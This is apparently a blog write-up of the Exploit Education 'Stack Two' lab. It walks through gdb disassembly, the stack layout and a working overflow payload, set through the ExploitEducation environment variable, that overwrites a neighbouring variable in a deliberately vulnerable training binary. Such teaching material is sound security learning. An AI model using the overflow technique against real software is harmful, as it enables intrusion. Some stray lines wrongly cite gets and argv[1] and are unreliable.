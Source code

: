 ```yaml
---
layout: post
title: Stack Two Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Two exercise stack-overflow vulnerability with learning resources.
---
```


If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: 
1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)

### Quick Overview

Similar to Stack One, Stack Two exercise motive is to smash the stack to modify other variables in the stack to a `hex value 0x0d0a090a` but receives the value from the environment variable `ExploitEducation`. Technically, similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared variables in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int changeme` stays in main stackframe.

### Disassemble

Disassembling the code will get you overall idea behind the stack-two code, One can use `gdb ./stack-two` to start debugging it in runtime.

1. `gdb ./stack-two`
2. Type `disassemble` to get the disassembled code (assembly)

```assembly
   0x00000000004006ad <+0>:     push   rbp
   0x00000000004006ae <+1>:     mov    rbp,rsp
   0x00000000004006b1 <+4>:     sub    rsp,0x60
   0x00000000004006b5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006b8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006bc <+15>:    mov    edi,0x400790
   0x00000000004006c1 <+20>:    call   0x400500 <puts@plt>
   0x00000000004006c6 <+25>:    mov    edi,0x4007da
   0x00000000004006cb <+30>:    call   0x4004f0 <getenv@plt>
   0x00000000004006d0 <+35>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006d4 <+39>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004006d9 <+44>:    jne    0x4006ef <main+66>
   0x00000000004006db <+46>:    mov    esi,0x4007f0
   0x00000000004006e0 <+51>:    mov    edi,0x1
   0x00000000004006e5 <+56>:    mov    eax,0x0
   0x00000000004006ea <+61>:    call   0x400510 <errx@plt>
   0x00000000004006ef <+66>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006f6 <+73>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004006fa <+77>:    lea    rax,[rbp-0x50]
   0x00000000004006fe <+81>:    mov    rsi,rdx
   0x0000000000400701 <+84>:    mov    rdi,rax
   0x0000000000400704 <+87>:    call   0x4004d0 <strcpy@plt>
   0x0000000000400709 <+92>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040070c <+95>:    cmp    eax,0xd0a090a
   0x0000000000400711 <+100>:   jne    0x40071f <main+114>
   0x0000000000400713 <+102>:   mov    edi,0x400828
   0x0000000000400718 <+107>:   call   0x400500 <puts@plt>
   0x000000000040071d <+112>:   jmp    0x400733 <main+134>
   0x000000000040071f <+114>:   mov    eax,DWORD PTR [rbp-0x10]
   0x0000000000400722 <+117>:   mov    esi,eax
   0x0000000000400724 <+119>:   mov    edi,0x400870
   0x0000000000400729 <+124>:   mov    eax,0x0
   0x000000000040072e <+129>:   call   0x4004e0 <printf@plt>
   0x0000000000400733 <+134>:   mov    edi,0x0
   0x0000000000400738 <+139>:   call   0x400520 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-two using gdb to view the assembly instruction, you may notice the puts, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-two, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Utilizes `getEnv` aka `getenv@plt` to `ExploitEducation` pointer in the memory
3. Set `locals.changeme` variable to `zero` or `0x00` in hex
4. Strcpy `locals.buffer` variable filled by argv[1] argument passed from commandline
5. Verify `locals.changeme` is `0x0d0a090a` in hex
5. Use puts(aka Printf) method to greet the user again with decision (cmp instruction)
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stackframe same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe600` and then `rsp` to `$rbp-0x60` as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-two-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe5b0` and `locals.changeme` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe5f0`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.changeme`. If you playaround with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.changeme` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.changeme` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.changeme` variable succesfully. However, our challenge is to overwrite `locals.changeme` variable with `0x0d0a090a`. If you try generating the payload simply  `(A * 64) + '\x0d\x0a\x09\x0a'`, this would represent in the memory as `64 'A's & 0x0a090a0d` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*64 + '\x0a\x09\x0a\x0d'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-two-gdb.jpg)

You'll have to set the environment variable before executing the payload.

`> export ExploitEducation=$(python -c "print('A'*64 + '\x0a\x09\x0a\x0d')")`

```assembly
(gdb) r 
Starting program: /opt/phoenix/amd64/stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
[Inferior 1 (process 426) exited normally]
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack Two Exercise: [Exploit Education](https://exploit.education/phoenix/stack-two/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
